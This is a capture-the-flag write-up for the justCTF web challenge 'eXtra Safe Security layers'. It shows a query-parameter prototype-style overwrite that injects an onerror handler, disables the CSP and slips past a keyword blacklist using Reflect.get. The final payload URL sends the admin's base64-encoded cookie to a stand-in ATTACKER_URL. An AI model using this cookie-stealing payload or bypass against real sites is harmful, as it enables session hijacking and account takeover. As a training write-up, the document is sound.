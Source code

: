 # eXtra Safe Security layers

## Flag
justCTF{M4nY_L4y3rS_M4nY_f4ilur3s_ae5bda97-8543-4a4b-84bf-22c6a0df6bdf}

## Solution

The web application reflects the text from the value of the `text` parameter in the query string and use a middleware which sanitizes HTML tags:
```
// Safety layer 1
// "middleware which sanitizes user input data (in req.body, req.query, req.headers and req.params) to prevent Cross Site Scripting (XSS) attack."
// = XSS impossible ;)
app.use(xss());
```

The server sets the filename of the background image in a template depending on whether the user is an admin or a normal user to "admin_background.png" or "background.png", respectively.
```JavaScript
	if (req.cookies?.admin === adminCookie) {
		res.user = {
			isAdmin: true,
			text: "Welcome back :)",
			unmodifiable: {
				background: "admin_background.png",
				CSP: `default-src 'self'; img-src 'self'; style-src '${css}'; script-src '${adminJs}' '${commonJs}';`,
			},
		};
	} else {
		// Safety layer 4
		res.user = {
			text: "Hi! You can modify this text by visiting `?text=Hi`. But I must warn you... you can't have html tags in your text.",
			unmodifiable: {
				background: "background.png",
			},
		};
	}
```

```HTML
    <script>
        // load background...
        main.innerHTML += `
            <img class='background' src='<%- unmodifiable?.background %>'>
        `;
        console.log('Loaded!');
    </script>
```

Since the following is being used on the web application, we can overwrite values in `res.user`:
```JavaScript
	if (req.query.text) {
		res.user = { ...res.user, ...req.query };
	}
```

We can use the query parameter `unmodifiable[background]` for changing the value of `unmodifiable.background` for example with http://xssl.web.jctf.pro/?text=a&unmodifiable[background]=example.
The web application also uses a CSP:
```JavaScript
	res.set("Content-Security-Policy", res.user.unmodifiable.CSP ?? defaultCSP);
```
The value `unmodifiable.CSP` can be overwritten the same way as we overwrite the value of `unmodifiable.background`.

The web application also uses a blacklist, but it can be bypassed by using [Reflect](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Reflect).
```JavaScript
const blacklist = [
	"fetch",
	"eval",
	"alert",
	"prompt",
	"confirm",
	"XMLHttpRequest",
	"request",
	"WebSocket",
	"EventSource",
];
```

We can test that the payloads work by opening the URL http://xssl.web.jctf.pro/?text=a&unmodifiable[background]=%27%20onerror=%27Reflect.get(window,%22a%22%2B%22lert%22)()&unmodifiable[CSP]=.

Then, we submit the URL `http://xssl.web.jctf.pro/?text=a&unmodifiable[background]=%27%20onerror=%27Reflect.get(window,%22f%22%2B%22etch%22)(%22ATTACKER_URL?%22%2Bbtoa(document.cookie))&unmodifiable[CSP]=` to the bot and get the flag.

